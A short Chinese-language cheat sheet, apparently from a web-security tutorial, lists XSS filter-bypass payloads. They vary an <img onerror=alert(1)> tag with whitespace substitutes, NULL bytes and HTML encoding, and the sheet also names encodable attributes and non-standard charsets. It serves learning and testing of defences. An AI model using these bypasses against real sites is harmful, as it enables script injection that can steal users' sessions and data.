 标签名称后的空格

一些可用于替代空格的字符

```javascript
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
```

**属性名称**

绕开一些检查以`on`开头的过滤器

```javascript
<img o[%00]nerror=alert(1) src=a>
```

属性分隔符,把多个属性分隔开

```javascript
<img onerror='alert(1)'src=a>
```

**属性值**

可以用NULL字节或HTML编码属性值

```javascript
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
```

> HTML编码 十六进制编码 base64编码 ASCII编码

以下属性可以被编码：

```javascript
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
data= //只支持base64
```

**字符集**

有时可用一些非标准编码绕开过滤器

UTF-7、US-ASCII、UTF-16

**拆分跨站：**

当应用程序没有过滤<、>关键字却限制了字符长度时可用拆分跨站
